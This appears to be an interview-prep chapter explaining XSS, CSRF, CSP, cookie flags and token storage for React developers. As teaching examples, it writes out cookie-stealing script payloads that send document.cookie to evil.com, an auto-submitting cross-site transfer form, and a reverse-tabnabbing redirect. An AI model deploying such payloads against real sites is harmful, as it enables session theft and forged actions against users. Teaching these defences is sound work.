


> Prerequisites: HTTP cookies, CORS headers and preflight (Ch 13); React's default text-escaping in JSX (Ch 03). Security is a standard SDE-2 topic and a JD "high ownership" signal.

## The Problem

Imagine you run a guest book at a party. Someone writes "Nice party!" on a card, and you pin it to the wall for everyone to see. But what if someone writes a card that says "Nice party!" but also quietly slips in a tiny instruction that tells the security guard to hand over the keys to every room? If you just pin the card to the wall without reading the fine print, you've just given an attacker the keys to your building.

That's web security in a nutshell. Users send you text. You display it. But if you display it as HTML instead of plain text, the browser might *execute* something instead of just showing it. And if another site tricks the browser into sending your users' credentials, the server has no idea it wasn't really them.

The attacks sound scary. XSS. CSRF. Token theft. But they all come down to two simple violations:

1. **Data got treated as code.**
2. **Credentials leaked across origins.**

## Why Existing Solutions Failed

Early web security was a whack-a-mole game. Developers escaped `<` and `>` but forgot `&`. They used `innerHTML` because it was convenient. They set cookies without `SameSite` because nobody told them it mattered. Each missing defense was a door left unlocked.

Server-side validation? Great for checking if an email is valid. Useless against DOM-based injection — the server already sent the data back, and the browser is the one rendering it as HTML.

Client-side validation? The attacker never touches your UI. They send raw HTTP requests directly. Bypassing your checks is trivial.

The browser *does* have security features. But they only work if you opt in. SameSite? You have to set it. CSP? You have to send the header. HttpOnly? You have to configure the cookie. Security isn't the default — it's a deliberate choice.

## Mental Model

Think of every HTTP request as a sealed envelope.

**XSS** is someone slipping a note inside *your* envelope that says "write a new envelope to the attacker and put the session keys in it." The note executes in *your* house (your origin), so it has access to everything.

**CSRF** is someone sending an envelope that *looks* like it came from your house (because the browser attaches your cookies), but it was actually written at the attacker's house (their origin).

The two rules that cover almost everything:

1. **Never trust input.** Anything from a user, a URL, or an API can be hostile. Treat data as data. Never as code.
2. **Never leak authority.** Don't let one origin act with another origin's credentials. The browser's entire job is keeping origins isolated. Every attack is a way to break that isolation.

From those two rules, everything follows. React's default escaping? That's rule one — it turns data into text, not HTML. SameSite cookies? That's rule two — they stop credentials from leaking across origins. CSP? Defense-in-depth for rule one. Token storage? The tradeoff is which rule you're optimizing for.

No need to memorize an attack list. Every vulnerability is either "untrusted input became code" or "authority leaked across origins."

## Visualization

XSS attack flow:



CSRF attack flow:



## Engine Simulation

Let's trace a stored XSS attack step by step.

A user submits a comment on your blog. The comment contains:

```html
<script>document.location='https://evil.com/?c='+document.cookie</script>
```

Your server stores it as-is (no sanitization). Another user visits the page. The server sends the comment in the API response. The frontend renders it with `innerHTML`. The browser parses the `<script>` tag. The script executes. The victim's cookies get sent to evil.com. Game over.

Now the same attack against React's default behavior. The server sends the same malicious comment. The frontend renders it with `{comment.body}` in JSX. React sees `<script>` and escapes the angle brackets. The browser displays the literal text `<script>...</script>` on the page. No script tag is ever parsed. No script executes. The attack is dead on arrival.

Now trace CSRF. A user is logged into bank.com. The session cookie has no `SameSite` attribute. The user visits evil.com. Evil.com has a hidden form:

```html
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="1000">
</form>
<script>document.forms[0].submit()</script>
```

The browser sends the POST to bank.com and auto-attaches the session cookie. Bank.com sees a valid cookie. The transfer executes. The user never clicked anything.

Now add `SameSite=Lax` to the cookie. When evil.com's form tries to auto-submit, the browser checks: is this a top-level navigation? No — it's a form POST from a cross-site context. The browser drops the cookie. The request arrives at bank.com unauthenticated. Bank.com rejects it. Attack neutralized.

## Internal Implementation

React's JSX escaping works at the element creation level. When you write `<div>{userInput}</div>`, React calls `React.createElement('div', null, userInput)`. The third argument becomes a text node child in the DOM. Text nodes are not parsed as HTML. Special characters like `<`, `>`, `&` are automatically converted to HTML entities (`&lt;`, `&gt;`, `&amp;`). This is identical to `element.textContent = userInput` vs `element.innerHTML = userInput`. The moment you use `innerHTML` or `dangerouslySetInnerHTML`, you're telling the browser "trust this content as HTML" — and that's the hole.

SameSite cookies work at the browser's cookie store level. When the browser makes a request, it checks the cookie's `SameSite` attribute against the request's initiator:

- **Lax** (default in modern browsers): cookies are sent for top-level navigations (clicking a link) but not for cross-site form submissions, `fetch`, or `img` tags.
- **Strict**: cookies are not sent for *any* cross-site request.

This check happens before the request leaves the browser. The server never sees the cookie — the browser simply doesn't attach it.

CSP works at the browser's content security policy checker. The server sends a `Content-Security-Policy` header. Before executing any script, loading any style, or making any request, the browser checks the CSP. If the source doesn't match the whitelist, the browser blocks the operation and reports the violation. Even if an attacker injects a `<script>` tag, CSP can block it from executing *and* block it from phoning home. This is defense-in-depth — it protects you even when other defenses fail.

## Real World Example

Your contacts app handles real user data and auth tokens. The threat model includes an attacker posting a contact with a malicious name. The contacts list renders all names. Without React's default escaping, this is a stored XSS vector. React's JSX escaping handles it. The only risk is if the app uses `dangerouslySetInnerHTML` for rich text profiles — in that case, sanitize with DOMPurify first.

The app uses cookies for session management. Without `SameSite`, a cross-site request from an attacker's page could trigger authenticated API calls. Setting `SameSite=Lax` prevents this. Adding `HttpOnly` means JavaScript can't read the cookie — even if XSS executes, the cookie is inaccessible.

For auth tokens: refresh tokens go in `HttpOnly+Secure+SameSite` cookies. Access tokens are short-lived and live only in memory. This minimizes the exposure window. A CSP header restricts script sources to your own domain. Defense-in-depth.

## Tradeoffs

**XSS vs CSRF in token storage.** localStorage is XSS-readable but not vulnerable to cookie-based CSRF. HttpOnly cookies are XSS-safe but need `SameSite` and CSRF tokens. There's no perfect location. The tradeoff is which threat you prioritize.

Most modern apps prefer `HttpOnly+Secure+SameSite` cookies because `SameSite` kills most CSRF and `HttpOnly` protects against XSS reading the token. But the server still needs to handle CSRF for the remaining cases (cross-site POSTs that should work).

**CSP vs development velocity.** Strict CSP (`script-src 'self'` with hashes) blocks all inline scripts and `eval`. This prevents XSS but also blocks legitimate inline scripts and many third-party integrations. Start with report-only mode to discover violations before enforcing.

**Sanitization vs escaping.** Escaping is safe and simple — React does it by default. Sanitization is complex — you must parse HTML and strip dangerous parts while keeping safe parts. Escaping always wins when you don't need rich HTML. Only use sanitization when you must allow some HTML formatting.

## Common Mistakes

- Using `dangerouslySetInnerHTML` without sanitizing user content. This leads to stored XSS.
- Assuming JWT in localStorage is automatically secure. XSS can read it.
- No `SameSite` on session cookies. This exposes you to CSRF.
- Redirecting to a raw query-param URL. This creates an open redirect or phishing risk.
- Trusting client-side validation or authorization. The server must re-check everything.

## SDE-2 Interview Answer

**Mid-level variant:**

"React prevents XSS by default — JSX inserts values as text and escapes HTML characters. The data stays as data. The hole is `dangerouslySetInnerHTML`, where you must sanitize first. CSRF happens when an attacker's site sends a request to a site you're logged into, and the browser auto-sends cookies. SameSite cookies prevent this by not sending them cross-site. For token storage, HttpOnly cookies are XSS-safe but need SameSite. localStorage is XSS-readable."

**Senior variant:**

"Two rules: never trust input (data is not code) and never leak authority across origins. XSS happens when untrusted input runs as code in your origin. React escapes by default, inserting values as text nodes. `dangerouslySetInnerHTML` or `innerHTML` reopens the hole — I sanitize with DOMPurify and add CSP for defense-in-depth. CSRF happens when an attacker uses your auto-sent cookies from another site. SameSite cookies are the modern primary defense. For token storage, there's no free lunch. I prefer HttpOnly+Secure+SameSite cookies for session tokens, short-lived access tokens in memory, and strong XSS defenses including CSP. The threat model matters more than any single defense."

**Engineering Lead variant:**

"I establish the two rules as team principles. All code reviews check that untrusted input is never rendered as HTML. `dangerouslySetInnerHTML` requires a comment explaining why it's necessary and confirming sanitization. Cookie configuration standards mandate HttpOnly+Secure+SameSite for session cookies. We use CSP in report-only mode initially to discover violations, then enforce. Token storage strategy is documented with the explicit tradeoff. Every team member understands that security is layered — escaping, sanitization, CSP, SameSite, HttpOnly, and server-side validation each add a layer. No single layer is sufficient."

## Follow-up Questions

1. Walk a stored XSS attack through a contact's name field. How does React's text-escaping stop it? How would `dangerouslySetInnerHTML` reopen it?

**The attack:** An attacker creates a contact with the name `<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>`. The server stores this string in the database. Another user opens the contacts list. **React's defense:** When the contacts list renders `{contact.name}`, React calls `createElement` with the string as a text node. Text nodes are not parsed as HTML. The browser displays the literal `<script>...</script>` text on the page. No script tag is ever created in the DOM. The attack is dead on arrival. **Reopening the hole:** If the developer uses `dangerouslySetInnerHTML={{ __html: contact.name }}`, React sets `element.innerHTML` instead. The browser parses the string as HTML, finds the `<script>` tag, and executes it. The attacker's script runs in the origin, reads `document.cookie`, and sends it to the evil server. The fix: if you must render rich HTML, sanitize with DOMPurify first — it parses the HTML, strips dangerous elements (script, iframe, event handlers), and returns safe markup. But escaping (the default) always wins when you don't need rich formatting.

2. Diagram CSRF. Why does `SameSite=Lax` stop most of it?

**The attack:** User is logged into `bank.com` (session cookie set). User visits `evil.com`. Evil.com contains a hidden form that auto-submits a POST to `bank.com/transfer` with `to=attacker&amount=1000`. The browser sends the request and auto-attaches the `bank.com` session cookie because it matches the domain. Bank.com sees a valid session and processes the transfer. The user never clicked anything on bank.com. **SameSite=Lax defense:** When the browser sends the cross-site form POST, it checks the cookie's SameSite attribute. `Lax` means: only send the cookie for top-level navigations (clicking a link to bank.com), not for cross-site form submissions, fetch calls, or image tags. The browser strips the session cookie from the request. Bank.com receives the POST without authentication and rejects it. **Why "most":** SameSite=Lax doesn't protect against top-level GET-based CSRF (a link to `bank.com/transfer?to=attacker` still sends cookies). But state-changing operations should never be GET requests, so this is a design constraint, not a SameSite limitation. For defense-in-depth, pair SameSite with anti-CSRF tokens on state-changing endpoints.

3. localStorage vs HttpOnly cookie for tokens. Give the XSS and CSRF tradeoff table.

| Storage | XSS Risk | CSRF Risk | Notes |
|---|---|---|---|
| **localStorage** | High — any XSS can read `localStorage.getItem('token')` and exfiltrate it | Low — JavaScript must explicitly attach the token; browser won't auto-send it | Simple to implement. Token persists across tabs. No automatic attachment means the developer controls when to send it, but XSS defeats that control entirely. |
| **HttpOnly cookie** | Low — JavaScript cannot access the cookie via `document.cookie`. Even if XSS runs, the token is invisible to script | Medium — browser auto-attaches cookies on every request to the domain. A cross-site form POST or fetch with `credentials: 'include'` sends it automatically | Safer default. SameSite=Lax eliminates most CSRF. The server must still validate CSRF for state-changing POST/PUT/DELETE. |
| **In-memory (variable)** | Medium — XSS can still read the variable if it's in the same execution context | Low — not auto-attached by browser | Short-lived access tokens here, refresh token in HttpOnly cookie. Best balance for sensitive apps. |

The recommendation: refresh token in `HttpOnly + Secure + SameSite` cookie (long-lived, never exposed to JS). Access token in memory (short-lived, 5-15 minutes). Strong XSS defenses (CSP, output escaping) as the primary protection. SameSite cookie + anti-CSRF tokens for the remaining CSRF surface.

4. What does CSP add if you already escape output? (Defense-in-depth.)

Output escaping handles the known injection point — React's JSX inserts values as text nodes, not HTML. But CSP protects against the cases escaping misses: third-party scripts you load (analytics, widgets), browser extensions injecting scripts, subresource integrity failures, and future vulnerabilities in your codebase where someone does use `innerHTML` or `dangerouslySetInnerHTML` without sanitizing. CSP also blocks inline scripts (`<script>alert(1)</script>`) even if they somehow get into the DOM. A strict CSP like `script-src 'self' 'nonce-abc123'` means only scripts from your origin with the correct nonce can execute. Even if an attacker injects a `<script>` tag via an unsanitized field, CSP blocks it and reports the violation. CSP is the safety net that catches escaping failures, third-party compromises, and developer mistakes. It doesn't replace escaping — it complements it. Start with `Content-Security-Policy-Report-Only` to discover violations before enforcing, so you don't break legitimate scripts.

5. Why is `rel=noopener` needed on `target=_blank`?

When a link opens in a new tab with `target="_blank"`, the new page gets a reference to the original page via `window.opener`. The opened page can then call `window.opener.location = 'https://evil.com'` to redirect the original page — a reverse tabnabbing attack. The user thinks they're still on your site but they've been redirected to a phishing page. `rel="noopener"` prevents this by setting `window.opener` to `null` in the new tab. The opened page has no reference back to the original. `rel="noreferrer"` also works (it sets `noopener` implicitly plus suppresses the Referer header). Modern browsers (Chrome 88+, Firefox 79+) set `noopener` by default for `target="_blank"`, but older browsers don't — so explicitly adding `rel="noopener"` is still best practice for defense-in-depth.

## Mental Trigger

**Data is not code. Credentials don't cross origins.**

## One Page Revision

- Two rules: never trust input (data is not code) and never leak authority across origins. The browser enforces origin isolation. Attacks break that isolation.
- XSS: untrusted input runs as code in your origin. React escapes by default (text, not HTML). `dangerouslySetInnerHTML` or `innerHTML` reopen the hole. Sanitize and add CSP.
- CSRF: attacker uses your auto-sent cookies from another site. Defend with `SameSite` cookies and anti-CSRF tokens.
- Token storage tradeoff: localStorage is XSS-readable. HttpOnly cookie is CSRF-prone. Prefer HttpOnly+Secure+SameSite, short-lived access tokens, and strong XSS defenses.
- CSP, `noopener`, `frame-ancestors`, HTTPS/HSTS, and allowlisted redirects are supporting layers. Always re-validate on the server.
